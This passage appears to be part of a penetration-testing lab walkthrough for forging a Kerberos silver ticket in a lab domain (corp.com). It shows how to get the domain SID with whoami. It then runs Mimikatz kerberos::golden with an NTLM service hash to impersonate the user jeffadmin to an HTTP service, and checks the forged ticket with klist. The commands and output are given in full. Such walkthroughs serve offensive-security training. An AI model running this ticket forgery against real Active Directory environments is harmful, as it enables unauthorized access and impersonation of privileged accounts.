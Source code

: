 #### Step 3: Obtain Domain SID with `whoami /user`
```hlt:8
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

Result (without RID): `S-1-5-21-1987370270-658905905-1781884369`

#### Step 4: Determine Target SPN Resource 
Target: _HTTP/web04.corp.com:80_

#### Step 5: Create Silver Ticket Using Mimikatz `kerberos::golden`

```hlt:1,2,6,8,9
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```

Ticket should be ready to go in memory. 

View ticket with `klist`
```hlt:1
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```
